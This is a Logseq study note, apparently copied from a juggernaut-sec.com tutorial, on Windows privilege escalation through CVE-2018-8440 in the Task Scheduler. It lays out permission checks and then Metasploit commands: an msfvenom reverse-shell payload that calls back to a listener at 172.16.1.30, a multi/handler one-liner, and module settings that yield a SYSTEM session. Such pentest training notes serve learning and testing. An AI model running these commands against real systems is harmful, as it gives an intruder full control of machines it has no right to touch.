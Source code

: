 public:: true
tags:: metasploit, windows, scheduled task, privesc

- #+BEGIN_QUOTE
  *From [juggernaut-sec.com](https://juggernaut-sec.com/scheduled-tasks/#CVE-2018-8440_%E2%80%93_A_Scheduled_Task_Kernel_Exploit)*
  #+END_QUOTE
- `CVE-2018-8440` is a vulnerability that affects Windows versions up to 1803 as well as Windows Server 2008, 2012, and 2016.
- This exploit leverages **weak permissions** of the `C:\windows\tasks` folder as well as **a flaw** in the Task Scheduler API function “SchRpcSetSecurity”. Essentially, this flaw allows a standard user to call the API function and set file permissions on any local file they want.
- You need to check the `C:\Windows\Tasks` folder permissions using either `icacls` or `accesschk`.
  logseq.order-list-type:: number
  You need both *Read* and *Execute* as well as write permissions for the authenticated users group.
	- With `icacls`
	  logseq.order-list-type:: number
	  ```powershell
	  icacls "C:\Windows\Tasks"
	  ```
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-296.png)
	- With `accesschk`
	  logseq.order-list-type:: number
	  ```powershell
	  .\accesschk64.exe -wvud "C:\WIndows\Tasks"
	  ```
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-297.png)
- Exploit it via Metasploit
  logseq.order-list-type:: number
	- Create a payload with `mfsvenom`
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom \
	      -p windows/x64/shell_reverse_tcp \
	      LHOST=172.16.1.30 \
	      LPORT=443 \
	      -a x64 \
	      --platform Windows \
	      -f exe \
	      -o meterpreter64.exe
	  ```
	- Upload the payload to the target machine
	  logseq.order-list-type:: number
	- Start a mult-handler with `msfconsole`
	  logseq.order-list-type:: number
	  ```bash
	  msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 172.16.1.30;set LPORT 443;exploit;"
	  ```
	- From here we need to use the following commands to background our meterpreter session and load up the `CVE-2018-8440` module
	  logseq.order-list-type:: number
	  ```
	  background
	  search ALPC
	  use 0
	  set SESSION 1
	  set LHOST 172.16.1.30
	  set LPORT 8080
	  ```
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-301-1024x746.png)
	- Everything is set and all we need to do is issue the `exploit` command and we should see a second meterpreter session check in as SYSTEM
	  logseq.order-list-type:: number
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-302.png)